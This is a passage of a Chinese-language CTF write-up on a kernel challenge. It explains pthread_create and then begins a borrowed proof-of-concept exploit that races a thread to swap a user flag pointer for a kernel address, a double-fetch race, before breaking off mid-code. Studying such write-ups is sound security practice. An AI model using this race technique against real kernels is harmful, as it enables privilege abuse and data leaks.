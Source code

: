 第一个参数为指向线程[标识符](https://baike.baidu.com/item/标识符)的[指针](https://baike.baidu.com/item/指针)。

第二个参数用来设置线程属性。

第三个参数是线程运行函数的起始地址。

最后一个参数是运行函数的参数。

栗子：

```c
#include <pthread.h>

void change_flag_addr(void *a){
    struct v5 *s = a;
    while(finish == 1){
        s->flag = flag_addr;
    }
}

int main()
{
	struct v5 t;
	pthread_t t1;
	pthread_create(&t1,NULL,change_flag_addr,&t); 
}

```

---

调了一下钞sir师傅的poc：

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <pthread.h>

unsigned long long flag_addr;
int Time = 1000;
int finish = 1;

struct v5{
    char *flag;
    size_t len;
};

//change the user_flag_addr to the kernel_flag_addr
void change_flag_addr(void *a){
    struct v5 *s = a;
    while(finish == 1){
        s->flag = flag_addr;
    }
}

int main()
{
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    pthread_t t1;
    char buf[201]={0};
    char m[] = "flag{AAAA_BBBB_CC_DDDD_EEEE_FFFF}";     //user_flag
    char *addr;
    int file_addr,fd,ret,id,i;
    struct v5 t;
    t.flag = m;
```